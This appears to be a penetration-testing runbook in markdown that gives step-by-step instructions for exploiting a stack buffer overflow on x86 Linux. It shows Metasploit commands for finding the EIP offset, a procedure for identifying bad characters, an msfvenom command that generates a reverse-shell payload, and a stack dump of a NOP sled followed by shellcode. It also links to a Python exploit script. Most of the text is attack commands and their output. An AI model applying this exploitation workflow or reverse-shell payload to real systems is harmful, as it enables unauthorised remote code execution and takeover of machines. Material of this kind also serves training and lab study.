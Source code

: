 # buffer overflow x86 linux

## Step 1: Take control EIP

- Get rough estimate offset (e.g. 1000)
- Create pattern.
```shell
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1200
```

- Calculate exact offset using the value of the EIP.
```shell
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x69423569
```

- Verify offset by overwriting EIP.

## Step 2: Identify bad chars

- Start inspecting bad characters "\x00\x01\x02...\xff"
- Use the following command to inspect the stack.

```shell
x/1000xb $rsp
```

- Iterate the process. E.g. remove "\x00\x09", update input, and rerun program.

## Step 3: Generate shellcode

Consider
- Architecture (e.g. `x86`)
- Platform (e.g. linux)
- Bad characters

Generate shellcode using `msfvenom`.
```shell
msfvenom -p "linux/x86/shell_reverse_tcp" LHOST=127.0.0.1 LPORT=4444 --format "c" --bad-chars "\x00\x09\x0a\x20"
```

- Update program input. Add `\x90` chars are NOP instructions.

- Example stack is given below.

```shell
...
0xffffd6b4:     0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
0xffffd6bc:     0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
0xffffd6c4:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd6cc:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
...
0xffffd72c:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd734:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd73c:     0xbf    0x0c    0xf4    0xbb    0x7c    0xd9    0xcb    0xd9
0xffffd744:     0x74    0x24    0xf4    0x5a    0x31    0xc9    0xb1    0x12
...
```

## Step 4: Identify return address

- Get a memory address where **only** NOPs are located to tell the EIP to jump to it.
- This memory address must **not** contain any of the bad characters we found earlier.
- Pass the address to the input **backwards** in case of little Endian

Finally, update the EIP overwrite with the memory address found above.

## Python
- A Python script for local buffer overflow can be at [GitHub](https://github.com/a3cipher/runbook/blob/main/ptes3-exploitation/binary-exploitation/bo-x86-linux-local.py).
